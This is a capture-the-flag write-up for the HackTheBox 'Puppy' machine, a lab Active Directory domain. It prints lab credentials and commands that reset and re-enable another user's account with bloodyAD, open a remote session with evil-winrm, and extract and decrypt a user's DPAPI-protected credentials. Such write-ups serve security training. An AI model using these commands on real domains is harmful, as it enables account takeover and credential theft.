# Puppy -- HackTheBox (write-up)

**Difficulty:** Hard
**Box:** Puppy (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-07-25

---

## TL;DR

### Assumed breach scenario. Used SMB access to find a KeePass database, cracked it to get multiple user credentials, abused WriteOwner via BloodHound to take over accounts, and used DPAPI credential decryption to get the final flag.

---

## Target info

- Domain: `puppy.htb`
- Assumed breach creds: `levi.james:KingofAkron2025!`

---

## Enumeration















---

## KeePass extraction

```bash
keepassxc-cli open recovery.kdbx
```







Extracted credentials:
- `ANTONY C. EDWARDS` -- `Antman2025!`
- `JAMIE WILLIAMSON` -- `JamieLove2025!`
- `ADAM SILVER` -- `HJKL2025!`
- `STEVE TUCKER` -- `Steve2025!`
- `SAMUEL BLAKE` -- `ILY2025!`

---

## Lateral movement





Re-gathered BloodHound data with `ant.edwards`:



Used bloodyAD to reset `adam.silver`'s password:

```bash
bloodyAD -u "ant.edwards" -p 'Antman2025!' -d "puppy.htb" --host "10.10.11.70" set password "ADAM.SILVER" 'Password123!'
```





Account was disabled -- re-enabled it:

```bash
bloodyAD -d puppy.htb -u ant.edwards -p 'Antman2025!' --host 10.10.11.70 remove uac -f ACCOUNTDISABLE 'adam.silver'
```



```bash
evil-winrm -i 10.10.11.70 -u 'adam.silver' -p 'Password123!'
```







Found: `steph.cooper:ChefSteph2025!`

---

## DPAPI credential decryption



Found DPAPI Master Key and Credential Files for `steph.cooper`:
- MasterKey: `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407`
- CredFile: `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9`

Uploaded `DPAPIBlobReader.exe` and `DPAPIMasterKeyReader.exe`:

```bash
.\DPAPIBlobReader.exe /file:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" /outfile:C8D69EBE9A43E9DEBF6B5FBD48B521B9.blob
```

```bash
.\DPAPIMasterKeyReader.exe /file:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" /outfile:556a2412-1275-4ccf-b721-e6a0b4f90407.mkey
```

Downloaded both `.blob` and `.mkey` files, then decrypted offline:

```bash
dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407.mkey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'
```

```bash
dpapi.py credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9.blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

---

## Lessons & takeaways

- KeePass databases on SMB shares are high-value targets -- always try to crack them
- bloodyAD can reset passwords and re-enable disabled accounts when you have the right AD permissions
- DPAPI credential decryption is a powerful technique when you have the user's password and can access their profile
- `DPAPIBlobHunter.exe` can search for DPAPI blobs across a user's profile
